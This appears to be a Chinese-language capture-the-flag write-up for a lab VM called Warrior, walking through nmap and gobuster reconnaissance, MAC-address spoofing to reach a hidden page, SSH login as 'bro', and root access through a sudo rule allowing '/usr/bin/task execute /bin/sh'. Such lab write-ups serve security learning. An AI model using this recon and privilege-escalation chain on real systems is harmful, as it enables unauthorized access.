



# 信息搜集

主机发现

```markup
┌──(kali㉿kali)-[~]
└─$ nmap -sn 192.168.21.0/24   
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-09 00:15 EDT
Nmap scan report for 192.168.21.1 (192.168.21.1)
Host is up (0.0016s latency).
MAC Address: CC:E0:DA:EB:34:A2 (Baidu Online Network Technology (Beijing))
Nmap scan report for 192.168.21.2 (192.168.21.2)
Host is up (0.00013s latency).
MAC Address: 04:6C:59:BD:33:50 (Intel Corporate)
Nmap scan report for 192.168.21.3 (192.168.21.3)
Host is up (0.12s latency).
MAC Address: 72:10:25:EC:4F:8C (Unknown)
Nmap scan report for 192.168.21.10 (192.168.21.10)
Host is up (0.00026s latency).
MAC Address: 08:00:27:66:7A:66 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.21.11 (192.168.21.11)
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 5.60 seconds
```

端口扫描

```markup
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 192.168.21.10
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-09 00:16 EDT
Nmap scan report for 192.168.21.10 (192.168.21.10)
Host is up (0.00049s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:66:7A:66 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.93 seconds
                                                                
┌──(kali㉿kali)-[~]
└─$ nmap -sT -sV -O -p22,80 192.168.21.10  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-09 00:17 EDT
Nmap scan report for 192.168.21.10 (192.168.21.10)
Host is up (0.0012s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
MAC Address: 08:00:27:66:7A:66 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.64 seconds
```

# 漏洞利用

看一下80端口

```markup
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.21.10/  
<h1>WARRIOR</h1>
<!-- YEAH -->
```

目录扫描

```markup
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.10 -w SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -x html,txt,php,jpg,png,zip,git
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.10
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,txt,php,jpg,png,zip,git
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 31]
/user.txt             (Status: 200) [Size: 5]
/admin                (Status: 301) [Size: 169] [--> http://192.168.21.10/admin/]                                               
/robots.txt           (Status: 200) [Size: 137]
/internal.php         (Status: 200) [Size: 82]
/secret.txt           (Status: 200) [Size: 17]
Progress: 9482032 / 9482040 (100.00%)
===============================================================
Finished
===============================================================
```

/user.txt


/robots.txt



/internal.php


/secret.txt



把mac地址修改一下00:00:00:00:00:a0-00:00:00:00:00:af在访问



用loco和Zurviv0r1尝试登录，失败了

```markup
┌──(kali㉿kali)-[~]
└─$ ssh loco@192.168.21.10            
The authenticity of host '192.168.21.10 (192.168.21.10)' can't be established.
ED25519 key fingerprint is SHA256:LKGaz7vcAZo/hWtEM4N2MzrC3C6Gl5sNO4+P8d7TpV8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.21.10' (ED25519) to the list of known hosts.
loco@192.168.21.10's password: 
Permission denied, please try again.
loco@192.168.21.10's password: 
Permission denied, please try again.
loco@192.168.21.10's password: 
loco@192.168.21.10: Permission denied (publickey,password).
```

再看一看，尝试用bro，成功

```markup
┌──(kali㉿kali)-[~]
└─$ ssh bro@192.168.21.10
bro@192.168.21.10's password: 
Linux warrior 5.10.0-11-amd64 #1 SMP Debian 5.10.92-1 (2022-01-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Feb  8 04:03:20 2022 from 192.168.1.51
bro@warrior:~$
```

# 提权

看看有什么

```markup
bro@warrior:~$ sudo -l
-bash: sudo: command not found
bro@warrior:~$ find / -perm -u=s -type f 2>/dev/null
/usr/sbin/sudo
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
bro@warrior:~$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
bro@warrior:~$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
bro:x:1000:1000:bro,,,:/home/bro:/bin/bash
bro@warrior:~$ ls -la
total 32
drwxr-xr-x 3 bro  bro  4096 Feb  8  2022 .
drwxr-xr-x 3 root root 4096 Feb  8  2022 ..
-rw-r--r-- 1 bro  bro   220 Feb  8  2022 .bash_logout
-rw-r--r-- 1 bro  bro  3526 Feb  8  2022 .bashrc
drwxr-xr-x 3 bro  bro  4096 Feb  8  2022 .local
-rw-r--r-- 1 bro  bro   807 Feb  8  2022 .profile
-rw------- 1 bro  bro    21 Feb  8  2022 user.txt
-rw------- 1 bro  bro    53 Feb  8  2022 .Xauthority
```

user.txt

```markup
bro@warrior:~$ cat user.txt
LcHHbXGHMVhCpQHvqDen
```

可以sudo

```markup
bro@warrior:~$ /usr/sbin/sudo -l
Matching Defaults entries for bro on warrior:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User bro may run the following commands on warrior:
    (root) NOPASSWD: /usr/bin/task

```

提权


```markup
bro@warrior:~$ /usr/sbin/sudo /usr/bin/task execute /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

root.txt

```markup
# cat root.txt
HPiGHMVcDNLlXbHLydMv
```